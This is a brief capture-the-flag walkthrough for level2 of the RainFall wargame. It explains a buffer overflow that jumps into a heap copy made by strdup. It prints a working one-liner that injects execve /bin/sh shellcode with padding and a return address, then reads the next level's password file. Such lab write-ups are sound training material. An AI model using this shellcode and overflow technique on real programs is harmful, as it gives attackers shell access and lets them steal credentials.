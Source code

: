 # Walkthrough

## 1. Disassemble l'executable 

see source.c

## 2. Exploit

We need to jump into the address in the heap where the strdup allocated our variable into memory.
We wrote a payload that write /bin/sh into our variable that will be duplicated into the heap and we jump in that location.

```
level2@RainFall:~$ (python -c "print('\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * (80 -24)  + '\x08\xa0\x04\x08')"; echo "cat /home/user/level3/.pass") | ./level2 
1�Ph//shh/bin��PS�ᙰ
                   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
```
